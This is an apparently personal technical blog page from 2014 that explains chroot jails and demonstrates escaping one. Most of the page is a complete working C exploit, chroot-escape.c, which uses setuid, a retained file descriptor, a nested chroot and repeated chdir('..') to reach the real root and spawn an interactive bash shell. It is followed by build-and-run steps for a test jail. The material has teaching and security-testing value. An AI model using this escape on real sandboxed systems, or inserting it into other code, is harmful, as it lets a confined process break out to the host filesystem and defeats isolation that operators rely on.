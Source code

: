 <h1 class="header">Chroot Escaping</h1>
</br>
*09 November 2014* | [View On Github](https://github.com/sevaivanov/kedfilms/blob/master/frontend/static/frontend/md/hacks/chroot.md#chroot-escaping) | [Revision History](https://github.com/sevaivanov/kedfilms/commits/master/frontend/static/frontend/md/hacks/chroot.md)

FD:

A [F]ile [D]escriptor is a pointer to a file.

Each Process has a working directory.
</br></br>

Chroot():

Says to everyone:  Hey, it's the new root!

It changes **sometimes** their working directory to this new root.

Everyone (processes) is locked in this place & not aware of a higher location.


# Using C & gcc

Tested on Debian Wheezy 3.2

Jargon:

1. Real Root : System root
2. Mother Root : Where we are locked, chrooted into.
3. Sub Jail: A new jail that we create in the Mother Root.

## chroot-escape.c

    #include <sys/stat.h>
    #include <unistd.h>
    #include <fcntl.h>

    // printf()
    #include <stdio.h>
    // exit()
    #include <stdlib.h>

    int main()
    {
        int jail_fd;

        /*
            Not root? Set the effective user id to 0, root.
            Priviledged status depends only on the effective UID      
            http://unixpapa.com/incnote/setuid.html
        */
        if (getuid() != 0)
        {
            // printf("%d", geteuid());
            setuid(0);
        }

        /*
            Return a FD of current jail directory (Mother Jail).
            It's a pointer to the mother jail.
            Original chroot() call did not close his FD.
        */
        jail_fd = open(".", O_RDONLY);

        /*
            We need to go inside a Sub Jail created by us.
            You can NOT close your Mother Jail while inside.
        */
        mkdir("cell", 0755);
        chroot("cell");

        /*
            Let's go outside of our new jail to the motherjail.
            Everyone thinks our root is the [yourjail/].
            Since we're root, the system can't stop us.
            We have to refer by a FD because we don't know its path.
        */
        fchdir(jail_fd);

        /*
            Let's close the FD.
            All of the resources of this FD will be freed.
            The mother jail is shut down!
            We're outside of the Sub Jail created by us somewhere we don't know.
        */
        close(jail_fd);

        /*
            Let's go higher & higher to touch the skies!
            Going too high will be interpreted as going to root.
        */
        int i;
        for(i = 0; i < 1000; i++)
        {
            chdir("..");
        }

        // Chroot to the real root place.
        chroot(".");

        // Run an interactive shell from there.
        return execl("/bin/bash", "-i", NULL);
    }


Inspired from [filippo.io](https://filippo.io/escaping-a-chroot-jail-slash-1)

## How to test:

1. Make a jail

        apt-get install binutils debootstrap
        mkdir -p /jails/yourjail
        debootstrap --arch i386 wheezy /jails/yourjail http://http.debian.net/debian
        touch /jails/yourjail/IN_JAIL_NOW

    Inspired from [debian docs](https://wiki.debian.org/chroot).

2. Compile to executable into yourjail

        gcc -static -o jails/yourjail/escape jails/chroot-escape.c

3. Chroot into yourjail

        chroot /jails/yourjail

4. Escape

        ./escape && ls

<p class="footer"></p>